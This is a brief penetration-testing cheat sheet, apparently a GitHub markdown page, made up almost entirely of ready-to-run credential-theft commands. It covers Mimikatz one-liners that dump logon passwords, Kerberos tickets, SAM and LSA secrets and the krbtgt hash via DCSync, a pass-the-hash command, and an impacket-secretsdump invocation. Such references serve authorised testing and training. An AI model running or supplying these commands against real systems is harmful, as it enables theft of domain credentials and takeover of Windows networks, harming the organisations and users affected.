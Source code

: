 # Mimikatz

```powewrshell
.\mimikatz.exe "log .\mimikatz.log" "privilege::debug" "sekurlsa::logonpasswords" "exit" #oneliner
privilege::debug

token::whoami
token::elevate

lsadump::sam
lsadump::sam SystemBkup.hiv SamBkup.hiv
sekurlsa::logonpasswords
sekurlsa::tickets

lsadump::dcsync /user:krbtgt
lsadump::lsa /patch #both these dump SAM
```

## Pass The Hash
```powershell
mimikatz # sekurlsa::pth /user:username /domain:domain.tld /ntlm:ntlm_hash
```

# Credential Access with Secretsdump

```bash
impacket-secretsdump username@target-ip -dc-ip target-ip [-hashes]
```






